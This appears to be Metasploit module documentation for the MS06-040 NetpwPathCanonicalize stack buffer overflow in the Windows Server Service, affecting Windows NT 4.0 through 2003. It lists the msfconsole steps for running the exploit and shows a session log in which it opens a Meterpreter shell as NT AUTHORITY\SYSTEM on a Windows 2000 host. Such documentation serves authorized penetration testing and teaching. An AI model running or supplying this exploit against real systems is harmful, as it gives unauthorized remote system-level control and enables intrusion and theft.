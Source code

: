 ## Vulnerable Application

This module exploits a stack buffer overflow in the NetApi32 CanonicalizePathName() function using the NetpwPathCanonicalize RPC call in the Server Service. It is likely that other RPC calls could be used to exploit this service. This exploit will result in a denial of service on Windows XP SP2 or Windows 2003 SP1. A failed exploit attempt will likely result in a complete reboot on Windows 2000 and the termination of all MB-related services on Windows XP. The default target for this exploit should succeed on Windows NT 4.0, Windows 2000 SP0-SP4+, Windows XP SP0-SP1 and Windows 2003 SP0.

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/exploits/windows/smb/ms06_040_netapi`
  3. Do: `set RHOSTS [IP]`
  4. Do: `set PAYLOAD [payload]`
  5. Do: `set LHOST [IP]`
  6. Do: `set LPORT [port]`
  7. Do: `run`

## Scenarios

### A run against Windows 2000 (Build 2195, SP4) and Kali Linux 2019.3

  ```
  msf exploit(windows/smb/ms06_040_netapi) > use modules/exploit/windows/smb/ms06_040_netapi
  msf exploit(windows/smb/ms06_040_netapi) > set RHOSTS 192.168.1.2
  msf exploit(windows/smb/ms06_040_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  msf exploit(windows/smb/ms06_040_netapi) > exploit

    [*] 192.168.1.2:445 - Detected a Windows 2000 target
    [*] 192.168.1.2:445 - Binding to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Bound to 4b324fc8-1670-01d3-1278-5a47bf6ee188:3.0@ncacn_np:192.168.1.2[\BROWSER] ...
    [*] 192.168.1.2:445 - Building the stub data...
    [*] 192.168.1.2:445 - Calling the vulnerable function...
    [*] Started bind TCP handler against 192.168.1.2:4444
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:39603 -> 192.168.1.2:4444) at 2019-12-02 11:48:52 -0700


    meterpreter > sysinfo
      Computer        : PC-B43791F5F5
      OS              : Windows 2000 (5.0 Build 2195).
      Architecture    : x86
      System Language : en_US
      Domain          : WORKGROUP
      Logged On Users : 1
      Meterpreter     : x86/windows

    meterpreter > getuid
      Server username: NT AUTHORITY\SYSTEM
  ```
